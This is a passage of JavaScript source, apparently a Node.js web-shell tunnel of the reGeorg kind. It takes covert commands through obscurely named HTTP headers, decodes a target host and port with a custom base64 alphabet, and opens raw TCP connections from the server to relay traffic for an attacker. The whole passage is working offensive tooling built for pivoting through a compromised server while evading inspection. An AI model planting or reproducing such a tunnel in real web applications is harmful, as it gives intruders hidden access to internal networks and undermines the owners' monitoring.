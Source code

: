 ```javascript
        
        
        if (session[writebuf].length == 0) {
          await delay(50);
        }
        if (session[writebuf] == undefined){
          
          
          return;
        }
        let writeBuff = session[writebuf].pop();
  
        if (writeBuff) {
          var a = session[tcphandle].write(writeBuff);
          
          
        }
    
    
    
  }
  }
  
  try {
    en = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
    de = "Y+mad20bOq8FirAnDw53GKCxU4IMVzWPTLpRXuEZsQJtfeSy6okvc9HlgN17/hBj";
    if (req.cookies.SESSIONID) {
      if (sessions[req.cookies.SESSIONID] != undefined) {
        session = sessions[req.cookies.SESSIONID];
      }else{
        session = {};
        sessions[req.cookies.SESSIONID] = session;
      }
    } else {
      session = {};
      sessions[req.cookies.SESSIONID] = session;
    }

    var cmd = req.header("Ygcohluhosnj");
    if (cmd) {
      mark = cmd.substring(0, 22);
      cmd = cmd.substring(22);
      run = "run" + mark;

      writebuf = "writebuf" + mark;
      readbuf = "readbuf" + mark;
      tcphandle = "tcphandle" + mark;
      
    }

    switch (cmd) {
      case 'Og_97W8l8U3Ujn7ubVvIEB4YcoTusKmiKSbF70fv9UfRGUCOr0mrzyFrZ81fL': {
        
        target_ary = Buffer.from(StrTr(req.header("Ywflea"), de, en), 'base64').toString().split("|")
        target = target_ary[0];
        port = parseInt(target_ary[1]);
        session[tcphandle] = new net.Socket();
        session[tcphandle].connect(port, target, mark);

        console.log("tcpConn: ")

        session[tcphandle].on('data', function (data) {
```
